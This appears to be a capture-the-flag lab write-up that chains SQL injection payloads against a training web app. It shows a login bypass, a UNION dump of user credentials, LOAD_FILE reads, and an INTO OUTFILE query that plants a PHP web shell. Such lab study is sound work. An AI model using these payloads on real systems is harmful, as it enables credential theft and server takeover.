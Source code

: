 # Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Bypass login

```
# username
asdf' or '1'='1' -- -
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

```
cn' UNION select 1, id, username, password, 5 from ilfreight.users-- -
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption><p>root:password</p></figcaption></figure>

```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

flag\_cae1dadcd174.txt

```
cn' UNION SELECT 1, LOAD_FILE("/flag_cae1dadcd174.txt"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>



